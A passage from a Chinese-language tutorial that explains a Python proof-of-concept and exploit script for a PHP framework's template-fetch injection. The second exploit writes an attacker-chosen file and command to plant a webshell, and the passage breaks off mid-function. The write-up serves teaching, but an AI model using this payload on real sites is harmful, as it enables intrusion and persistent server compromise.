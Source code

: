 而这里的代码意思就是从`r`中寻找到`<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;`这行内容，这里的r就是，我们发送完`get`请求返回的内容，默认输出的时候是执行`r.text`,而这里我们将r交个`re`处理，然后这行结尾之前的内容保存到`pattern`中。

```python
match = re.search(pattern, r.text, re.DOTALL)
```

然后使用`re`库的`search`方法在`r.text`（请求的响应文本）中搜索与`pattern`匹配的内容。`re.DOTALL`标志使得`.`能够匹配任何字符，包括换行符。

```python
 if r.status_code == 200 and match:
    print(match.group(1).strip())
```

检查`HTTP`请求是否成功返回（状态码为200），检查是否找到了与正则表达式匹配的内容，当两个条件满足后，这行代码会打印出匹配到的第一个分组（即正则表达式中的`(.*?)`部分）的内容，并使用`strip()`方法去除首尾的空白字符。

### 2.1.3. 执行效果

这里忽略字符画的`CVE`编号，主要是我模板写错了，我也没修改了。

![image-20240415135957565](assets/image-20240415135957565.png)

## 2.2. 解析第二个EXP1()

第二个EXP主要是用于实现木马上传作用，整体来说，我觉得`EXP`和`POC`没有如何的区别，本质上也就是执行的`payload`不同，所以再编写上，本质无任何区别。

执行代码：

```python
##这里contain是木马名称，execute是代码命令（需要进行url编码）
def exp1(url, port, contain, execute):
    ##漏洞URL，拼接命令
    payload = f"/?a=fetch&templateFile=public/index&prefix=%27%27&content=%3Cphp%3Efile_put_contents(%27{contain}%27,{execute})%3C/php%3E"
    ##拼接url
    url1 = f"{url}:{port}{payload}"
    ##请求头
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##异常捕捉
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##判断上传成功与否
```